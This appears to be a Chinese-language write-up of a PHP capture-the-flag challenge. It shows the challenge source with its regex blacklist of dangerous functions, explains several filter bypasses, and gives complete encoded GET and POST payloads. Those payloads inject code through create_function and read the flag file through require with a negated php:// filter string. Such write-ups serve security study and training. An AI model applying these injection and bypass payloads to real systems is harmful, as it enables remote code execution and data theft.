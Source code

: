 ```php
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```

`$_SERVER['QUERY_STRING']` 的特性是不会 urldeode, 而 `$_GET` 会进行 urldecode, 因此可以双重编码绕过

`$_REQUEST` 优先解析 `$_POST` 内容, 其实还是看配置文件, 默认情况下先解析了 `$_GET`, 只不过是后来解析的 `$_POST` 把前面的给覆盖掉了

`preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute')` 这句可以在末尾加上 `%0a` 绕过, 因为单行模式下 `$` 不匹配换行符

`file_get_contents` 和 sha1 的绕过就不说了, 很简单

`preg_match('/^[a-z0-9]*$/isD', $code)` 用根命名空间绕过, 例如 `\create_function`

最后的正则里面没有 require (system 也没有, 但好像是被禁用了), 于是通过 require + 伪协议配合取反字符串绕过

`$code('', $arg);` 就是 `create_function` 的形式, 可以闭合大括号来执行任意代码

payload 如下

```php
get: debu=aqua_is_cute
&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=\create_function&flag[arg]=return 0;}require(~%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f);//

post: debu=123&file=123
```

其中 get 要把字母部分 urlencode, 即

```php
%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67[%63%6f%64%65]=%5c%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=%72%65%74%75%72%6e+0;}%72%65%71%75%69%72%65(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%99%93%9E%98%D1%8F%97%8F);//
```
